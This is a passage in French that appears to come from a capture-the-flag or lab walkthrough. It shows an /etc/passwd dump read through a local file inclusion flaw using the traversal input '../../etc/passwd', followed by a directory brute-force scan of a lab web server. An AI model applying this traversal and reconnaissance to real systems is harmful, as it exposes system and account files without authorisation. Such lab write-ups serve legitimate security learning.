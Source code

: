 ```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ntp:x:103:108::/home/ntp:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
```

Face à une telle vulnérabilité l'objectif est d'abord de déterminer où l'on se trouve sur le système (quel est le working directory du script) et d'obtenir des informations sur la configuration du serveur (config Apache et PHP).  

En l’occurrence si on passe juste *../../etc/passwd* on obtient toujours le contenu attendu, ce qui montre que seuls deux dossiers nous séparent de la racine. On peut être dans un */var/www* ou */srv/htdocs*.  

L'entrée du fichier *passwd* pour l'utilisateur *www-data* permet de confirmer que l'on est dans */var/www*.  

Maintenant que l'on sait où l'on est, il faut trouver une fonctionnalité permettant de placer du contenu sur le disque du serveur afin de provoquer son inclusion.  

Je lance un scan de dossiers sur le serveur web et quelques entrées apparaissent :  

```plain
  `==\. dvbuster v1.0 ./=='
      ¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨
20468 lines to process.
as many requests to send.
Using 4 processes...
Server banner: Apache/2.2.22 (Ubuntu)

Starting buster processes...
http://192.168.1.47/.htaccess/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.47/.htpasswd/ - HTTP 403 (241 bytes, gzip)
http://192.168.1.47/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.47/css/ - HTTP 200 (468 bytes, gzip) - Directory listing found
http://192.168.1.47/dbadmin/ - HTTP 200 (455 bytes, gzip) - Directory listing found
http://192.168.1.47/doc/ - HTTP 403 (237 bytes, gzip)
http://192.168.1.47/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.47/img/ - HTTP 200 (474 bytes, gzip) - Directory listing found
http://192.168.1.47/js/ - HTTP 200 (467 bytes, gzip) - Directory listing found
http://192.168.1.47/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.47/vendor/ - HTTP 200 (506 bytes, gzip) - Directory listing found
http://192.168.1.47/view/ - HTTP 200 (20 bytes, gzip)
```